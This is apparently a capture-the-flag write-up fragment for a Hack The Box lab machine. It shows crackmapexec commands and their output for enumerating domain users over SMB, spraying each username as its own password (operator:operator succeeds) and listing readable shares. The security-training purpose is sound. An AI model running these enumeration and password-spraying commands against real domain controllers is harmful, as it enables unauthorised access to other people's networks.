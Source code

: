 `crackmapexec smb 10.10.11.236 -u 'guest' -p '' --rid-brute | grep 'SidTypeUser' | awk '{ print $6 }' | awk -F '\' '{ print $2 }' | awk '{ print tolower($0) }' | sort -u | grep -v '\$$' | tee ./domain_users.txt`:
```
administrator
cheng
chinhae
guest
jinwoo
krbtgt
operator
raven
ryan
zhong
```

`crackmapexec smb 10.10.11.236 -u ./domain_users.txt -p ./domain_users.txt --no-bruteforce --continue-on-success`:
```
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator ←
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE
```

`crackmapexec smb 10.10.11.236 -u 'operator' -p 'operator'`:
```
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator
```

`crackmapexec smb 10.10.11.236 -u 'operator' -p 'operator' --shares`:
```
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
SMB         10.10.11.236    445    DC01             [*] Enumerated shares
SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
SMB         10.10.11.236    445    DC01             -----           -----------     ------
SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.236    445    DC01             C$                              Default share
SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.236    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.236    445    DC01             SYSVOL          READ            Logon server share 
```
